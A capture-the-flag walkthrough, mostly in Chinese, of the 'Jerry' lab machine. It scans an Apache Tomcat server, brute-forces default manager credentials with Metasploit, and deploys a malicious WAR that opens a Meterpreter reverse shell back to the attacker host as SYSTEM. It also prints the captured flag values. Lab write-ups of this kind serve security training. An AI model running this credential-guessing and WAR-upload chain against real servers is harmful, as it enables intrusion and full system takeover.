


## Jerry

```
[★]$ nmap -sC -sV 10.129.136.9
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-17 20:10 CST
Nmap scan report for 10.129.136.9
Host is up (0.0086s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
```
#### 浏览器http://IP:8080, 点击Manager App

#### 由于我们没有一组有效的凭据，所以我们枚举Tomcat的默认凭据。我们可以使用Metasploit用模块中的默认词表来处理这个问题
```
tomcat_mgr_login ≠ 漏洞利用
它是：

弱口令 / 默认凭据扫描器

Insecure Configuration + Credential Exposure

Service Exposure 服务暴露
→ Default Credential 默认 / 弱凭据
→ Authenticated Access 已认证访问
→ WAR Upload / RCE 远程代码执行

是一个 非 CVE 型攻击链（Configuration-based Attack Chain）也可以叫：

弱配置攻击链｜默认凭据攻击链｜服务暴露型初始突破链
```
#### 手动尝试对站点进行身份验证表明这确实是有效的
```
[★]$ msfconsole
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/http/tomcat_mgr_login
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set rhosts 10.129.40.5
rhosts => 10.129.40.5
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set rport 8080
rport => 8080
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> run
//[+]在中间
<SNIP>
[-] 10.129.40.5:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.129.40.5:8080 - Login Successful: tomcat:s3cret
[-] 10.129.40.5:8080 - LOGIN FAILED: both:admin (Incorrect)
<SNIP>
```
#### 手动尝试对站点进行身份验证表明这确实是有效的 

#### 利用这些知识，我们可以通过创建自定义恶意程序来利用TomcatWAR文件和部署新应用程序。要做到这一点，我们可以使用利用Metasploit中的/multi/http/tomcat_mgr_upload模块来编译和部署应用程序到Tomcat。
```
[msf](Jobs:0 Agents:0) >> use exploit/multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password for the specified username
   HttpUsername                   no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,t
                                            ype:host:port][...]. Supported proxies: s
                                            ocks4, socks5, sapni, socks5h, http
   RHOSTS                         yes       The target host(s), see https://docs.meta
                                            sploit.com/docs/using-metasploit/basics/u
                                            sing-metasploit.html
   RPORT         80               yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connection
                                            s
   TARGETURI     /manager         yes       The URI path of the manager app (/html/up
                                            load and /undeploy will be used)
   VHOST                          no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  85.9.196.34      yes       The listen address (an interface may be specifie
                                     d)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


View the full module info with the info, or info -d command.
```
```
接下来，我们需要填充数据以利用目标。
HttpPassword为访问管理接口的密码。
HttpUsername是能够向管理层进行身份验证的用户的用户名接口。
RHOSTS为目标IP地址。
RPORT是web应用程序的端口，在本例中是8080。
LHOST是攻击机器的IP地址。
LPORT是我们想要接收连接的端口
```
```
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set HttpPassword s3cretHttpPassword => s3cret
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set HttpUsername tomcatHttpUsername => tomcat
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set rhosts 10.129.40.5
rhosts => 10.129.40.5
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set rport 8080
rport => 8080
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set lhost 10.10.14.190
lhost => 10.10.14.190
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set lport 4444
lport => 4444
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> exploit
[*] Started reverse TCP handler on 10.10.14.190:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying 4IaeGCtMkgaSrFt...
[*] Executing 4IaeGCtMkgaSrFt...
[*] Undeploying 4IaeGCtMkgaSrFt ...
[*] Undeployed at /manager/html/undeploy
[*] Sending stage (58073 bytes) to 10.129.40.5
[*] Meterpreter session 1 opened (10.10.14.190:4444 -> 10.129.40.5:49192) at 2025-12-18 03:41:27 -0600

(Meterpreter 1)(C:\apache-tomcat-7.0.88) > getuid
Server username: JERRY$
(Meterpreter 1)(C:\apache-tomcat-7.0.88) > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```
#### 运行漏洞后，我们成功地在目标上获得了一个meter - preter shell。既然我们成功入侵目标后，我们可以生成一个交互式shell并读取其中的标志C:\Users\Administrator\Desktop\flags\2 for price of 1.txt
```
C:\apache-tomcat-7.0.88>dir C:\Users\Administrator\Desktop\flags\
dir C:\Users\Administrator\Desktop\flags\
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,420,695,040 bytes free

C:\Users\Administrator\Desktop\flags>exit
exit
(Meterpreter 1)(C:\apache-tomcat-7.0.88) > download C:\\Users\\Administrator\\Desktop\\flags\\"2 for the price of 1.txt"
[*] Downloading: C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt -> /home/syareya55/2 for the price of 1.txt
[*] Downloaded 88.00 B of 88.00 B (100.0%): C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt -> /home/syareya55/2 for the price of 1.txt
[*] Completed  : C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt -> /home/syareya55/2 for the price of 1.txt
```
#### 在本地端口打开//竟然有2个flag放一起的
```
[★]$ cat '2 for the price of 1.txt'
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
